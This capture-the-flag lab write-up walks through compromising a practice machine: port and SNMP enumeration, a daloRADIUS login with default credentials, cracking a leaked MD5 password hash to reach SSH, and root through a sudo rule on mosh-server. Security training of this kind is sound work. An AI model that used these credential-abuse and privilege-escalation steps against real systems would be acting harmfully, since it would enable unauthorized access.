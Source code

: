 1, Recon
Port scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

UDP 
68/udp  open|filtered dhcpc
137/udp open|filtered netbios-ns
161/udp open          snmp
162/udp open|filtered snmptrap

```
Page check
![](images/Pasted%20image%2020241221234932.png)The index page is the default page of Apache 2
Let's continue to enumerate the web-contents of that.
But there is nothing found by using dirbuster to find the valid web-content

So I would continue to check the snmp service
```
snmpbulkwalk -c public -v2c 10.10.11.48  
SNMPv2-MIB::sysDescr.0 = STRING: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (156773) 0:26:07.73
SNMPv2-MIB::sysContact.0 = STRING: steve@underpass.htb
SNMPv2-MIB::sysName.0 = STRING: UnDerPass.htb is the only daloradius server in the basin!
SNMPv2-MIB::sysLocation.0 = STRING: Nevada, U.S.A. but not Vegas
SNMPv2-MIB::sysServices.0 = INTEGER: 72
SNMPv2-MIB::sysORLastChange.0 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORID.1 = OID: SNMP-FRAMEWORK-MIB::snmpFrameworkMIBCompliance
SNMPv2-MIB::sysORID.2 = OID: SNMP-MPD-MIB::snmpMPDCompliance
SNMPv2-MIB::sysORID.3 = OID: SNMP-USER-BASED-SM-MIB::usmMIBCompliance
SNMPv2-MIB::sysORID.4 = OID: SNMPv2-MIB::snmpMIB
SNMPv2-MIB::sysORID.5 = OID: SNMP-VIEW-BASED-ACM-MIB::vacmBasicGroup
SNMPv2-MIB::sysORID.6 = OID: TCP-MIB::tcpMIB
SNMPv2-MIB::sysORID.7 = OID: UDP-MIB::udpMIB
SNMPv2-MIB::sysORID.8 = OID: IP-MIB::ip
SNMPv2-MIB::sysORID.9 = OID: SNMP-NOTIFICATION-MIB::snmpNotifyFullCompliance
SNMPv2-MIB::sysORID.10 = OID: NOTIFICATION-LOG-MIB::notificationLogMIB
SNMPv2-MIB::sysORDescr.1 = STRING: The SNMP Management Architecture MIB.
SNMPv2-MIB::sysORDescr.2 = STRING: The MIB for Message Processing and Dispatching.
SNMPv2-MIB::sysORDescr.3 = STRING: The management information definitions for the SNMP User-based Security Model.
SNMPv2-MIB::sysORDescr.4 = STRING: The MIB module for SNMPv2 entities
SNMPv2-MIB::sysORDescr.5 = STRING: View-based Access Control Model for SNMP.
SNMPv2-MIB::sysORDescr.6 = STRING: The MIB module for managing TCP implementations
SNMPv2-MIB::sysORDescr.7 = STRING: The MIB module for managing UDP implementations
SNMPv2-MIB::sysORDescr.8 = STRING: The MIB module for managing IP and ICMP implementations
SNMPv2-MIB::sysORDescr.9 = STRING: The MIB modules for managing SNMP Notification, plus filtering.
SNMPv2-MIB::sysORDescr.10 = STRING: The MIB module for logging SNMP Notifications.
SNMPv2-MIB::sysORUpTime.1 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.2 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.3 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.4 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.5 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.6 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.7 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.8 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.9 = Timeticks: (1) 0:00:00.01
SNMPv2-MIB::sysORUpTime.10 = Timeticks: (1) 0:00:00.01
HOST-RESOURCES-MIB::hrSystemUptime.0 = Timeticks: (157793) 0:26:17.93
HOST-RESOURCES-MIB::hrSystemDate.0 = STRING: 2024-12-22,5:1:11.0,+0:0
HOST-RESOURCES-MIB::hrSystemInitialLoadDevice.0 = INTEGER: 393216
HOST-RESOURCES-MIB::hrSystemInitialLoadParameters.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-126-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0
"
HOST-RESOURCES-MIB::hrSystemNumUsers.0 = Gauge32: 0
HOST-RESOURCES-MIB::hrSystemProcesses.0 = Gauge32: 217
HOST-RESOURCES-MIB::hrSystemMaxProcesses.0 = INTEGER: 0
HOST-RESOURCES-MIB::hrSystemMaxProcesses.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```

I found the name of service `daloradius`, by searching about the name, we can get the login page
`http://10.10.11.48/daloradius/app/users/login.php`
![](images/Pasted%20image%2020241222000518.png)
Then I try the default credit `admin:admin`, but it did not work.Then I continue to check the issues of this service, I found another default credit `administrator:radius`
![](images/Pasted%20image%2020241222000929.png)
We can use this credit to login successfully in this page `http://underpass.htb/daloradius/app/operators/home-main.php`
Then we can login to the dashboard
![](images/Pasted%20image%2020241222001231.png)

By enumerating the pages, I found the password hash of `svcMosh`
![](images/Pasted%20image%2020241222001346.png)
`412DD4759978ACFCC81DEAB01B382403`, crack this md5 hash, I get `underwaterfriends`

I guess we can use this password to login the ssh.
`ssh svcMosh@10.10.11.48`

2, shell as root
By check `sudo -l` we found 
```
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

we just need to make this payload
`mosh --server="sudo /usr/bin/mosh-server" localhost`
```
mosh:
表示启动 mosh 客户端。
mosh 是一种远程登录工具，类似于 ssh，但它使用 UDP 协议，支持断线重连和更流畅的体验。

--server="sudo /usr/bin/mosh-server":
--server 选项指定了 mosh 客户端在目标主机上启动的服务器命令。
通常，mosh 会在目标主机上自动运行默认的 mosh-server 命令。这里，指定使用 sudo 提权来运行 /usr/bin/mosh-server。
即，这条命令会以 sudo 权限在目标主机上启动 mosh-server。

localhost:
指定连接的目标主机为 localhost（本地主机）。
这表明 mosh 将尝试连接到当前机器，而不是远程主机。

```
Then we can get the root shell here.

